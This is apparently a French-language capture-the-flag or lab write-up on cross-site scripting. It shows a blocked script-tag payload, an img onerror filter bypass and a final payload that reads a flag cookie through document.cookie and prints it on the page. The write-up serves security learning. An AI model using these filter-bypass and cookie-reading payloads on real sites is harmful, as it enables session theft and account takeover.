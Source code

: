 Payload 1 : Tentative initiale (Bloquée)

* Charge utile 
<script>alert('XSS');</script>

Observation : La chaîne de caractères a été complètement supprimée de la page.

Analyse : Le site dispose d'un filtre de sécurité basique qui fonctionne sur liste noire (blacklist). Il détecte et supprime spécifiquement la balise <script>, rendant cette méthode d'injection inefficace.



Payload 2 : Contournement du filtre via un événement HTML

<img src=x onerror="alert('Contourné !')">

Observation : Une fenêtre d'alerte s'est affichée avec succès.

Analyse : Ce payload contourne le filtre en utilisant une balise HTML (<img>) généralement considérée comme inoffensive. L'astuce consiste à déclencher un événement JavaScript (onerror) en spécifiant une source d'image invalide. Le filtre ne surveillant pas cet événement, le code s'exécute.


Payload 3 : Exploitation finale et stable


Le document.cookie nous donne une chaîne comme : "cookie1=valeur1; cookie2=valeur2; ftCookies=If_You_See_Me_Its_Win".

<img src=x onerror="this.onerror=null; var v = document.cookie.split(';').find(row => row.trim().startsWith('ftCookies=')).split('=')[1]; var c = document.createElement('div'); c.textContent = 'Cookie value: ' + v; document.body.appendChild(c);">


- document.cookie.split(';'): Sépare les cookies.
- .find(row => row.trim().startsWith('ftCookies=')): C'est une façon moderne et concise de trouver le bon cookie dans le tableau.
- .split('=')[1]: Une fois le bon cookie trouvé (ex: "ftCookies=If_You_See_Me_Its_Win"), on le coupe en deux au niveau du = et on prend le deuxième morceau ([1]), qui est notre valeur.
